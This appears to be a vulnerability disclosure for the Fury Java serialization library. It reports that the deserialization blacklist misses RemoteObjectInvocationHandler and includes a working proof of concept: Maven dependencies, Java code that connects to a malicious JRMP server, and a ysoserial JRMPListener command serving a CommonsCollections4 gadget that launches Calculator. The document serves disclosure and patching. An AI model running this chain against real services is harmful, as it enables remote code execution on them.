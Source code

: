 ### 一、Description：

The open source component fury deserialization blacklist exists to bypass execution commands. 
The blacklist lacks the RemoteObjectInitationHandler class. 
This class can be used as a JRMP client to initiate a request to a malicious JRMP server. 
The JRMP server returns a serialized object, and the JRMP client deserializes it. cause the command to be executed.

### 二、Proof：

#### 1、build environment

Create a new maven project and import dependencies:

```
<dependency>
 <groupId>org.furyio</groupId>
 <artifactId>fury-core</artifactId>
 <version>0.1.0-alpha.2</version>
</dependency>
<!--RCE with CC4-->
<dependency>
 <groupId>org.apache.commons</groupId>
 <artifactId>commons-collections4</artifactId>
 <version>4.0</version>
</dependency>
```

#### 2、POC

```
ObjID id = new ObjID(new Random().nextInt()); // RMI registry
TCPEndpoint te = new TCPEndpoint("0.0.0.0", 8889);
UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
// Note that Fury instances should be reused between
// multiple serializations of different objects.
{
Fury fury = Fury.builder().withLanguage(Language.JAVA).withSecureMode(false)
// Allow to deserialize objects unknown types,
 // more flexible but less secure.
 // .withSecureMode(false)
 .build();
// Registering types can reduce class name serialization overhead, but not mandatory.
 // If secure mode enabled, all custom types must be registered.
 byte[] bytes = fury.serialize(obj);
System.out.println(fury.deserialize(bytes));
}
```

#### 3、start a yso process

java -cp ysuserial-1.5-su18-all.jar org.su18.ysuserial.exploit.JRMPListener 8889 -g CommonsCollections4 -p "open -a Calculator"

#### 4、run poc program
